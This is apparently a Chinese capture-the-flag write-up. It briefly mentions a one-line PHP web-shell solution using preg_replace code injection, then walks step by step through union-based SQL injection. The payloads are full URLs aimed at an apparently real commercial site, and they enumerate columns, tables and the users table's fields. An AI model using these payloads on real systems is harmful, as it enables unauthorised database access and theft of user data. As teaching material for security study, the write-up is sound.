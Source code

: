 典型的一句话木马
上网搜索
令www=preg_replace&wtf=print_r(scandir(‘.’))
出flag

* * *

## **32.注入实战1（500）**

我超喜欢这道题说真的我学到了好多呢
看题

**1\. 第一步**
首先利用order by 爆出字段数

order by 1000 时报错了
[http://www.backstagecommerce.ca/services.php?id=1](http://www.backstagecommerce.ca/services.php?id=1) order by 1000

然后用二分法爆出他的字段数为19
**2\. 第二步**
利用联合查询 爆出显示字段
[http://www.backstagecommerce.ca/services.php?id=-1%20union%20select1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#](http://www.backstagecommerce.ca/services.php?id=-1%20union%20select1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#)
*这里的id=-1这是为什么呢，因为啊id如果不为-1 结果集里第一条就是该查询到的结果，而后面的select 内容并不会显示出来，所以这里要赋给没有的id，负值都可以。*

这里爆出了3,6,7,8,9,10,11,12,13 这么多的显示字段，下一步我们用哪个字段都行来爆他的数据表
报表语句

```bash
http://www.backstagecommerce.ca/services.php?id=-9 union select 1,2,3,4,5,6,7,8,9,10,(select group_concat(table_name) from information_schema.tables where table_schema=database()),12,13,14,15,16,17,18,19#

主要是这句话
(select group_concat(table_name) from information_schema.tables where table_schema=database())
把这句话放到显示字段位置上即可
group_concat这里不多做解释，意思是多个字段查询的结果合并后在一行显示
information_schema.tables里面有数据库中的所有表
database()指的是当前数据库
table_schema指的是所有数据库
table_name 是属于information_schema.tables的表 相当于其中的一个元素
如果不懂自己动手查吧
```

爆出来的表名如下

有木有看见user数据表我们只关心这个，下一步要爆字段了
**3\. 第三步**
这一步我们要爆字段
有了数据表字段还不好爆吗

```bash
http://www.backstagecommerce.ca/services.php?id=-9 union select 1,2,3,4,5,6,7,8,9,10,11,(select group_concat(column_name) from information_schema.columns where table_name='users'),13,14,15,16,17,18,19#

information_schema.columns 该数据库中的所有字段
table_name 表的名字
column_name 属于information_schema.columns中的元素
看看都爆出来了什么字段
```
